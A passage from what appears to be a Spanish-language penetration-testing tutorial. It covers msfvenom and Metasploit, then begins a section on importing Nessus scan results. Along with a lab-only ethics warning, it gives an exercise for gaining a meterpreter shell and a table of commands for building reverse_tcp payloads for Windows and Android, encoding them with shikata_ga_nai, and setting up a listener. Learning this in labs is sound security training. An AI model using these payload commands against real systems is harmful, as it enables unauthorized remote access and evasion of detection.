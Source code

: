 ### ⚠️ Ética y legalidad

**Nunca uses estos payloads en sistemas que no te pertenezcan o no tengas permiso para evaluar.**

👉 Solo en laboratorios como:

- 🧪 TryHackMe
- 🧪 HackTheBox
- 🧪 Máquinas virtuales: Kali + Metasploitable2

---

### ✅ Ejercicio recomendado

1. Genera un payload para Windows con `msfvenom`.
2. Lanza un handler con `msfconsole`.
3. Ejecuta el payload en tu VM vulnerable (por ejemplo, Metasploitable2 con Wine o Windows 7 en VirtualBox).
4. Gana una shell `meterpreter`.
5. Usa comandos de post-explotación.

---

### ✅ En resumen

| Acción                   | Comando                                                    |
| ------------------------ | ---------------------------------------------------------- |
| Crear payload exe        | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP ...` |
| Crear payload apk        | `msfvenom -p android/meterpreter/reverse_tcp ...`          |
| Añadir encoder           | `-e x86/shikata_ga_nai -i 5`                               |
| Formato de salida        | `-f exe / elf / raw / py`                                  |
| Ver payloads disponibles | `msfvenom -l payloads`                                     |
| Ver formatos             | `msfvenom --help-formats`                                  |
| Listener en Metasploit   | `use exploit/multi/handler` + `set PAYLOAD ...` + `run`    |

---

[🔼](#índice)

---

## **52. Metasploit: Importando los resultados de Nessus**

### 📌 **1️⃣ Introducción breve**

✅ **Nessus** es un **escáner de vulnerabilidades** que analiza hosts y servicios para encontrar fallas conocidas.

✅ **Metasploit** es un **framework de explotación**: te ayuda a usar esos resultados para lanzar exploits y obtener acceso.
